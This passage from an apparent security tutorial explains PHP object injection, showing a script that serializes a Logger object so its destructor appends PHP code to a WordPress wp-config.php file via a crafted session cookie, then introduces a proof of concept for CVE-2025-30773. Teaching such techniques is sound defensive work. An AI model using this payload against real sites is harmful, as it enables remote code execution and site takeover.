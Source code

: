 Exploitation:

```php
<?php
class Logger {
    public $logFile = "/var/www/htlm/wordpress/wp-config.php";
    public $message;

    public function __destruct() {
        file_put_contents($this->logFile, $this->message . "\n", FILE_APPEND);
    }
}

$payload = new Logger();
$payload->message = "<?php phpinfo(); ?>";
$session = base64_encode(serialize($payload));
echo "session=$session";
?>
```

If the attacker manages to get this cookie deserialized, the malicious input will be added to the file, appending arbitrary PHP code that will be executed when accessing the file.

### Real example, developing a PoC for CVE-2025-30773

In this example, we'll see a real case for a recently disclosed vulnerability, [CVE-2025-30773](https://www.cve.org/CVERecord?id=CVE-2025-30773){:target="_blank"}.

<figure markdown="span">
    ![CVE-2025-30773 Advisory](../../assets/posts/2025/03/30/Advisor.png)
      <figcaption>Publication of CVE-2025-30773</figcaption>